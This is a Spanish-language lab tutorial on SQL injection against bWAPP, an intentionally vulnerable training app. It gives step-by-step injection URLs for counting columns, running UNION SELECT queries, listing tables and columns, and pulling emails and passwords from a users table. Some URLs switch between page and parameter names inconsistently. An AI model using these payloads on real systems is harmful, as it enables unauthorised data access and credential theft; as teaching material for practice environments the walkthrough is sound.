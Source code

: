 # `03` Injection - SQL injection

1. Selecciona la vulnerabilidad **SQL Injection (GET/Search)** y "Hack".
2. Explora el formulario vulnerable. Verás un formulario con un campo para ingresar una búsqueda (generalmente llamado `title` o `id`). Ingresa un término simple, por ejemplo, `test`, y haz clic en Search. La URL generada de esa busqueda será algo como:

```bash
http://<tu_ip>/bWAPP/sqli_1.php?title=test&action=search
```

El resultado de la busqueda realizada será "not found" eso significa que estaremos bien, ya que test no existe en la tabla, pero no nos ha dado ningun error.

![imagen 1](../../.learn/assets/not-found.png)

### **Descubre el número de columnas**

1. Para identificar cuántas columnas devuelve la consulta original, realiza una prueba utilizando la siguiente inyección. Probemos con la consulta ORDER BY:

```bash
http://<tu_ip>/bWAPP/sqli_1.php?title=test' ORDER BY 1-- &action=search
```

Si no ves ningún error y solo un "not found", significa que la consulta tiene al menos una columna. 

2. Incrementa el número del ORDER BY para seguir verificando hasta que obtengas un error de sintaxis. Por ejemplo:

```bash
http://<tu_ip>/bWAPP/sqli.php?title=test' ORDER BY 2-- &action=search
http://<tu_ip>/bWAPP/sqli.php?title=test' ORDER BY 3-- &action=search
http://<tu_ip>/bWAPP/sqli.php?title=test' ORDER BY 4-- &action=search
```

Cuando llegues al número donde obtienes un error, significa que la consulta tiene una columna menos de la última que probaste con éxito.

![imagen 2](../../.learn/assets/columsql-error.png)


### **Inyección con UNION SELECT**

Una vez que hayas determinado el número de columnas, utiliza una inyección `UNION SELECT` para extraer información. Por ejemplo, si hay 7 columnas, puedes probar con:

```bash
http://<tu_ip>/bWAPP/sqli.php?id=1' UNION SELECT 1, database(), version(), 4, 5, 6, 7-- &action=search
```

> Esto te mostrará el nombre de la base de datos y la versión del servidor SQL.

![imagen 3](../../.learn/assets/get-version-database.png)

### **Exploración de nuevas funciones**

Ahora que has obtenido la base de datos y la versión del servidor, puedes explorar más funciones para obtener información adicional.

- Obtención del nombre del usuario actual:

    ```bash
    http://<tu_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, 2, user(), 4, 5, 6, 7-- &action=search
    ```
    

- Obtención de los nombres de las tablas.

Realiza una consulta UNION SELECT para acceder a la tabla information_schema.tables, que contiene los nombres de las tablas en la base de datos actual. Si el número total de columnas es 7, usa la siguiente URL:

    ```bash
    http://<tu_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, table_name, 3, 4, 5, 6, 7 FROM information_schema.tables WHERE table_schema=database()-- &action=search
    ```

**En esta consulta:**

- `table_name` es la columna que contiene los nombres de las tablas.
- `table_schema=database()` limita la consulta a la base de datos actual.

> Siempre asegúrate de que las columnas en la consulta UNION SELECT coincidan con el número de columnas en la consulta original. La salida debería mostrar los nombres de las tablas disponibles en la base de datos.

![imagen 4](../../.learn/assets/tables-name-sql.png)


- Obtener nombres de columnas.

Una vez que tengas los nombres de las tablas, obtén las columnas de una tabla específica. Por ejemplo, si una de las tablas se llama `users`, usa:

```bash
http://<tu_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, column_name, 3, 4, 5, 6, 7 FROM information_schema.columns WHERE table_name='users'-- &action=search
```

Esto te devolverá los nombres de las columnas en la tabla users.
![imagen 5](../../.learn/assets/colums-name-sql.png)


- Obtener datos sensibles.

Finalmente, extrae información sensible. Si descubres una columna llamada `password`, puedes obtener las contraseñas (o sus hashes) con la siguiente consulta:

```bash
http://<tu_ip>/bWAPP/sqli_1.php?title=test' UNION SELECT 1, email, password, 4, 5, 6, 7 FROM users-- &action=search
```

Esto te mostrará los nombres de usuario y sus contraseñas.
![imagen 6](../../.learn/assets/sensitive-infosql.png)



